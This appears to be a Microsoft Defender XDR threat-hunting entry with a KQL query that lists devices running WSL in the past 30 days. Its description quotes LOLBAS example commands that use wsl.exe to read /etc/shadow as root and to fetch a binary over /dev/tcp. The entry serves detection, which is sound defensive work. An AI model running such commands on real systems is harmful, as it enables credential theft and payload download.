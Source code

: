# List devices that have WSL installed

## Query Information

#### Description
Windows Subsystem for Linux may be used by adversaries to perform actions as root, or to download files. This query lists all devices that have WSL installed and it was active in the last 30 days. This may give an indidcation about the usage in your environment. Microsoft recommends listing WSL, if there is no scenario you explicitly require them. WSL Should be installed in the folder: C:\Windows\System32\wsl.exe. From the Lolbas project some suspicious queries that can be executed by WSL are:

```
wsl.exe -u root -e cat /etc/shadow

wsl.exe --system calc.exe

wsl.exe --exec bash -c 'cat < /dev/tcp/192.168.1.10/54 > binary'
```


#### References
- https://learn.microsoft.com/en-us/windows/wsl/
- https://lolbas-project.github.io/lolbas/OtherMSBinaries/Wsl/
- https://learn.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules

## Defender XDR
```
let WSLDevices = DeviceProcessEvents
| where Timestamp > ago(30d)
| where FileName == "wsl.exe"
| distinct DeviceId;
DeviceInfo
| where DeviceId in (WSLDevices)
| summarize arg_max(Timestamp, *) by DeviceId
```
